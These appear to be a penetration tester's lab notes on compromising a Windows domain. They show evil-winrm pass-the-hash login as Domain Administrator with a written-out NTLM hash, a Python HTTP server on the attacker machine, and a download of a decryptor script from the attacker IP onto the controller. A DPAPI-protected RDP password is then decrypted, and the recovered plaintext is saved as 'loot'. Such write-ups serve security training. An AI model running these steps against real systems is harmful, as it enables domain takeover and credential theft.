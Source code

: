 ### Github
#rdp-file-password-encryptor #rdp-file-password-decryptor
- downloaded this tool to decrypt the `ws01.rdp`
https://github.com/RedAndBlueEraser/rdp-file-password-encryptor
![[Pasted image 20240627140640.png]]
##### Setting up python3 -m http.server 
#pythonserver 
```bash
┌──(root💀gobots)-[27Jun2024 14:25:09]-[/home/…/SUT/Alchemy/DC_172.16.0.2/rdp-file-password-encryptor]
└─# python3 -m http.server 8002 
Serving HTTP on 0.0.0.0 port 8002 (http://0.0.0.0:8002/) ...
10.10.110.1 - - [27/Jun/2024 14:36:57] "GET /rdp-file-password-decryptor.ps1 HTTP/1.1" 200 -
10.10.110.1 - - [27/Jun/2024 14:37:55] "GET /rdp-file-password-decryptor.ps1 HTTP/1.1" 200 -
10.10.110.1 - - [27/Jun/2024 14:40:38] "GET /rdp-file-password-decryptor.ps1 HTTP/1.1" 200 -
10.10.110.1 - - [27/Jun/2024 14:46:39] "GET /rdp-file-password-decryptor.ps1 HTTP/1.1" 200 -
10.10.110.1 - - [27/Jun/2024 14:49:08] "GET /rdp-file-password-decryptor.ps1 HTTP/1.1" 200 -
```
##### evil-winrm as Domain Administrator
#evil-winrm 
```bash
┌──(root💀gobots)-[27Jun2024 14:32:19]-[/home/kali]
└─# proxychains evil-winrm -i 172.16.0.2 -u Administrator -H 731c191234d0934dee79dd57169c6da7  

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
alchemy\administrator
```
##### Invoke Web-Request 
```bash
*Evil-WinRM* PS C:\windows\temp> Invoke-WebRequest -Uri "http://10.10.14.39:8002/rdp-file-password-decryptor.ps1" -OutFile "C:\windows\temp\rdp-file-password-decryptor.ps1"  
```
##### Checking to ensure the file was there
![[Pasted image 20240627151057.png]]
##### Grab the hash from ws01.rdp
![[Pasted image 20240627151436.png]]
```bash
01000000D08C9DDF0115D1118C7A00C04FC297EB01000000A74D232999DCAA479430EF171E6D4FAD0000000002000000000003660000C000000010000000C3590AAA42F82FFA95833106EB994BBB0000000004800000A0000000100000009811006F7DF8DF0BB4DB973E11E6603C20000000D955D5B91E234B16F3E52A683096EE5BC60B690BBD42ECE424CE36B7C9CD17D414000000B542DA5BA10CBD5C77EF075D822F0F7A1FFD77C0             
```
##### Using the rdp-file-password-decryptor.ps1
#rdp-file-password-decryptor 
- got new password `UaqcsvzMxEjZ` for `calde` user, added to [[Loot-User List-Flags]]
![[Pasted image 20240627152002.png]]
```bash
*Evil-WinRM* PS C:\windows\temp> .\rdp-file-password-decryptor.ps1 01000000D08C9DDF0115D1118C7A00C04FC297EB01000000A74D232999DCAA479430EF171E6D4FAD0000000002000000000003660000C000000010000000C3590AAA42F82FFA95833106EB994BBB0000000004800000A0000000100000009811006F7DF8DF0BB4DB973E11E6603C20000000D955D5B91E234B16F3E52A683096EE5BC60B690BBD42ECE424CE36B7C9CD17D414000000B542DA5BA10CBD5C77EF075D822F0F7A1FFD77C0
UaqcsvzMxEjZ
```